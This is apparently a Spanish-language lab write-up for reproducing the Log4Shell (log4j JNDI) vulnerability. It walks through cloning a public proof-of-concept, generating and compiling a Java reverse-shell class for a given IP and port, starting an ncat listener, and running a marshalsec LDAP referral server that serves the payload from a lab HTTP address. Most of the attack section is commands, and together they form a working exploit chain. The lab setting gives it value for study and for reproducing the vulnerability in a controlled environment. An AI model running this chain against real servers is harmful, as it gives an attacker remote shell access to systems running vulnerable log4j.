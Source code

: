 Así, si bien se ha intentado configurar el servidor LDAP desde cero, se ha terminado usando un exploit:
```sh
apt update
# Instalar java y javac
apt install default-jdk python3 python3-pip
# Clonar y copiar ficheros necesarios para lanzar el servidor LDAP malicioso
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc/
pip3 install -r requirements.txt
```

Para llevar a cabo el ataque que se explica a continuación se han realizado algunas modificaciones sobre el código original, que pueden verse en [este fork](https://github.com/AdriandMartin/log4j-shell-poc/tree/separate-netcat-and-servers)

#### Clase Java con el reverse shell

Esta clase se ha obtenido de [este proyecto de GitHub](https://github.com/kozmer/log4j-shell-poc/blob/main/poc.py). Básicamente se ha copiado en un script que reemplaza la IP y el puerto en el código Java por los argumentos dados, vuelca la clase en un fichero JAVA y lo compila para obtener un CLASS

Para probar que funciona, se ha programado un fichero *Test.java* que hace uso de la clase generada, y que se usa como se explica a continuación

```sh
# Generar y compilar clase Exploit.java, con un reverse shell a 127.0.0.1:12345
./generateExploit.sh 127.0.0.1 12345
# Compilar la clase principal que cree una instancia de Exploit
javac Test.java
# Ejecutar clase que lanza el exploit
java Test
```
Antes de eso, en otro terminal, debe haberse lanzado lo siguiente:
```sh
ncat -lp 12345
```
Si todo funciona correctamente, se podrán ejecutar los comandos que se deseen en el terminal con el proceso `netcat`

#### Script *poc.py*

El script *poc.py* del proyecto [log4j-shell-poc](git clone https://github.com/kozmer/log4j-shell-poc) genera el payload (el fichero *Exploit.class*) y lanza un servidor LDAP que redirige la petición especificada a ese fichero CLASS, que es servido mediante un servidor HTTP que también lanza

Por una parte, lanza un servidor LDAP que devolverá al ser acedido lo que haya en un servidor web en la URL *http://192.168.56.100:1389#Exploit*
```sh
java -cp log4j-shell-poc/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.56.100:1389#Exploit
```

[jre 1.8.0_20](https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-linux-x64.tar.gz)
